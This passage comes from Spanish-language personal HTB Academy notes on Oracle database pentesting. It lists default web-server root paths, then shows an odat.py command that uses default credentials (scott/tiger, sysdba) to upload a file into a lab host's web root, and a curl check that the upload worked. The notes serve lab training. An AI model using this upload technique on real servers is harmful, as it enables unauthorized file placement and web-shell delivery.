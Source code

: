 | Sistema operativo | Ruta web por defecto |
| ----------------- | -------------------- |
| Linux             | /var/www/html        |
| Windows           | C:\inetpub\wwwroot   |

```bash
# Subir archivo
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

# Verificación
curl -X GET http://10.129.204.235/testing.txt
```

***

### Redes sociales

* LinkedIn: [https://www.linkedin.com/in/tuch0/](https://www.linkedin.com/in/tuch0/)
* Instagram: [https://www.instagram.com/tuch0\_/](https://www.instagram.com/tuch0_/)
* YouTube: [https://www.youtube.com/@tuch0](https://www.youtube.com/@tuch0)\_
* GitHub: [https://github.com/Tuch0](https://github.com/Tuch0)
* Web personal: [https://tuch0.com/](https://tuch0.com/)

> 📄 Apuntes personales de HTB Academy. Para uso educativo.
